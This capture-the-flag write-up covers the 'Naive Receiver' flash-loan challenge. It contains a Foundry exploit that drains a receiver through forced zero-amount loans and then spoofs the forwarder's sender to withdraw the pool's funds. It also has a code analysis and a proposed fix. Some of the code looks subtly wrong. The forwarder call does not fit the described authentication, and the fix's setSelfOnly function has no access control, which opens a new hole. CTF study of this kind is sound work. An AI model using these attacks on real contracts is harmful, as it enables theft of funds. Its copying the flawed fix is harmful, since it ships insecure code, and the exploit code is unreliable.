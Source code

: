 ## Challenge 2: Naive Receiver

### Vulnerability
The `NaiveReceiverPool` implements a flash loan mechanism that allows **any external caller** to initiate a flash loan on behalf of any receiver contract. While this is *technically compliant* with the ERC-3156 standard, it creates a **critical economic vulnerability** when combined with:

- A **fixed fee of 1 WETH**, charged regardless of loan amount.
- A **receiver contract** (`FlashLoanReceiver`) that:
  - Does **not validate** who initiated the loan.
  - Blindly repays `amount + fee` without access control.
  - Has **no rate limiting** or protection against repeated calls.

This allows an attacker to **drain the receiver’s entire balance** by calling `flashLoan` 10 times with `amount = 0`, forcing it to pay **10 × 1 WETH = 10 WETH** in fees — exactly its full balance.

Additionally, the pool uses `ERC2771ForwarderRecipient`, which overrides `_msgSender()` to support meta-transactions. This allows privileged functions like `withdraw` to be called via a trusted forwarder, **but only if the original sender is properly authenticated**.



### Exploit Code
```solidity
// In NaiveReceiver.t.sol - test_naiveReceiver() function
function test_naiveReceiver() public checkSolvedByPlayer {
    // Prepare the multicall: 10 flash loans + 1 withdraw
    bytes[] memory calls = new bytes[](11);

    // 10 flash loans (0 amount, but 1 WETH fee each)
    for (uint i = 0; i < 10; i++) {
        calls[i] = abi.encodeCall(
            pool.flashLoan,
            (receiver, address(pool.weth()), 0, "")
        );
    }

    // Withdraw all WETH from the pool to recovery address
    calls[10] = abi.encodeCall(
        pool.withdraw,
        (1000 ether, payable(recovery))
    );

    // Owner is the original deployer of the pool (standard in DVDF)
    address owner = address(100);

    // Use the forwarder to call multicall, so _msgSender() returns owner
    vm.startPrank(address(forwarder));

    // forwarder.execute(target, data, forwarderSender)
    forwarder.execute{value: 0}(
        address(pool),
        abi.encodeCall(pool.multicall, (calls)),
        owner // This appends owner to msg.data, making _msgSender() == owner
    );

    vm.stopPrank();

    // ✅ Challenge solved:
    // - FlashLoanReceiver balance == 0 (10 WETH drained in fees)
    // - recovery received 1000 WETH from pool via withdraw
}     
```

### Why it works
- **Flash loans can be triggered by anyone on behalf of any receiver**
  The `flashLoan` function does **not restrict** `msg.sender`, enabling third-party initiation — a feature of ERC-3156, but dangerous when misused.

- **The receiver pays a 1 WETH fee even for 0-amount loans**  
  Since `FIXED_FEE = 1 WETH` and no minimum loan amount is enforced, an attacker can drain the receiver by calling `flashLoan` 10 times with `amount = 0`.



### Vulnerability Analysis
**File:** `src/naive-receiver/NaiveReceiverPool.sol`
**Vulnerable Code (lines ~43-55):**
```solidity
function flashLoan(
    IERC3156FlashBorrower receiver,
    address token,
    uint256 amount,
    bytes calldata data
) external returns (bool) {
    // ✅ Validates token — only WETH supported
    if (token != address(weth)) revert UnsupportedCurrency();

    // 💸 Transfers loan amount to receiver — even if amount == 0
    weth.transfer(address(receiver), amount);
    totalDeposits -= amount;

    // 🔁 Executes receiver's logic — but receiver has no protection
    if (receiver.onFlashLoan(msg.sender, address(weth), amount, FIXED_FEE, data) != CALLBACK_SUCCESS) {
        revert CallbackFailed();
    }

    // 💣 Critical: Receiver must repay amount + 1 WETH fee — even if it didn't want the loan!
    uint256 amountWithFee = amount + FIXED_FEE;
    
    // 🚨 No validation that the receiver *authorized* this loan
    // 🚨 Anyone can trigger this — and force the receiver to pay 1 WETH
    weth.transferFrom(address(receiver), address(this), amountWithFee);
    totalDeposits += amountWithFee;

    // 🟡 Fee is credited to feeReceiver — but no access control on who triggers the loan
    deposits[feeReceiver] += FIXED_FEE;

    return true;
}
```

### 🚨 **Vulnerability Summary**

| Issue | Details |
|------|--------|
| **Unrestricted Loan Initiation** | Anyone can call `flashLoan` on behalf of any receiver. |
| **Zero-Amount Loans Allowed** | `amount == 0` is valid → receiver pays 1 WETH for nothing. |
| **No Receiver Authorization** | The receiver cannot reject unauthorized loans — it blindly repays. |
| **Predictable Fixed Fee** | `FIXED_FEE = 1 WETH` — attacker knows exactly how much to drain. |
| **No Rate Limiting** | Attacker can call `flashLoan` 10 times in one transaction via `multicall`. |

👉 **Impact**: An attacker can drain the `FlashLoanReceiver`'s entire 10 WETH balance by calling `flashLoan` 10 times with `amount = 0`.

---

### ✅ **How to Secure the Code**

The **root cause** is not in the pool alone — it's a **design flaw in trust assumptions**. The pool assumes receivers will protect themselves, but this one doesn’t.

We can fix this at **two levels**:

---

### 🔐 **Fix 1: Add Access Control in `NaiveReceiverPool.sol` (Defensive Design)**

Even though ERC-3156 allows third-party initiation, the pool can still **opt in** to safer defaults.

```solidity
// 🛡️ NEW: Add a flag to restrict flash loans to receiver-self only
mapping(address => bool) public isSelfOnly;

// 🛠️ Admin function to set self-only mode (optional)
function setSelfOnly(address receiver, bool enabled) external {
    isSelfOnly[receiver] = enabled;
}
```

Then update `flashLoan`:

```solidity
function flashLoan(
    IERC3156FlashBorrower receiver,
    address token,
    uint256 amount,
    bytes calldata data
) external returns (bool) {
    if (token != address(weth)) revert UnsupportedCurrency();

    // 🔒 NEW: If receiver is in self-only mode, only it can trigger the loan
    if (isSelfOnly[address(receiver)] && msg.sender != address(receiver)) {
        revert UnauthorizedFlashLoan();
    }

    weth.transfer(address(receiver), amount);
    totalDeposits -= amount;

    if (receiver.onFlashLoan(msg.sender, address(weth), amount, FIXED_FEE, data) != CALLBACK_SUCCESS) {
        revert CallbackFailed();
    }

    uint256 amountWithFee = amount + FIXED_FEE;
    weth.transferFrom(address(receiver), address(this), amountWithFee);
    totalDeposits += amountWithFee;

    deposits[feeReceiver] += FIXED_FEE;

    return true;
}

// 🆕 Custom error
error UnauthorizedFlashLoan();
```

> ✅ This prevents third parties from forcing loans on protected receivers.



